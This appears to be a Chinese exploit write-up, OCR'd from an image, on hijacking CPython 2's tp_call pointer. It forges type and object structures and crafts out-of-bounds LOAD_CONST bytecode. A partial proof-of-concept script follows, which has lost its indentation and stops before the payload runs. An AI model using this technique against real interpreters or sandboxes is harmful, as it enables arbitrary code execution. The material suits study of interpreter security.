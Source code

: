 总结一下需要调用到函数指针的过程：

i.字节码类型是CALL\_FUNCTION，进入call\_function；

ii.call\_function中，PyCFunction\_Check或者nk==0不成立，之后PyMethod\_Check或者PyMethod\_GET\_SELF\(func\) != NULL不成立，然后PyFunction\_Check不成立，进入do\_call；

iii.do\_call中PyCFunction\_Check不成立，进入PyOBject\_Call；

iv.PyObject\_call中，func的ob\_type的tp\_call就是我们要调用的函数指针。

看代码有点烦，通俗地讲：

i.字节码是CALL\_FUNCTION；

ii.不是function类型也不是method类型，不过是object类型；

iii.这个object类型的type object里的tp\_call就是调用的函数指针。

这么看就简单多了，type object虽然是一开始静态分配的，但是反正又不检查，不是静态分配又如何？伪造一个嘛。

2\)最终思路

i.构造一个object，构造为type object的形式，不过tp\_call指向想要执行的位置；

ii.构造第二个object，使得type指向第一个object；

iii.构造第三个object，指针指向第二个object；

iv.构造字节码：1.通过extended\_arg构造offset参数，offset为consts和第三个object的偏移，2.通过load\_const指令，由于按照consts是tuple，会再解一次引用，于是使得第二个object被push进栈，3.通过call\_function，进入调用过程；

v.将字节码设置进入某个function的func\_code；

vi.执行这个function，即执行我们构造好的func\_code。

3\)poc.py

```text
import types
from opcode import opmap
import struct
 
 
def p16(content):
return struct.pack("<H", content)
def p32(content):
return struct.pack("<I", content)
def p64(content):
return struct.pack("<Q", content)
def somefunction():
pass
def get_opcode(opname):
return chr(opmap[opname])
consts = ("12345", )
fake_type_object = 'a' * (0x5610 - 0x55b4) + p64(0xdeadbeef)
ptr_fake_type = id(fake_type_object)
ptr = ptr_fake_type
#         _ob_next _ob_prev ref cntt ob_type
fake_object= 'a' * 4 + p64(ptr) + p64(ptr) + p64(1) + p64(ptr)
#         points to
to_load = 'aaaa' + p64(id(fake_object) + (0x310 - 0x2e0) + 8)
ptr_fake_object = id(to_load) + (0x310 - 0x2e0)
ptr_consts = id(consts) + 32
offset = ((ptr_fake_object - ptr_consts) // 8) & 0xffffffff
def get_code(code_byte_str, code_consts):
somefunction.func_code = types.CodeType(
0, 0, 0, 0,
 code_byte_str,
code_consts, (), (),
"", "", 0, ""
)
```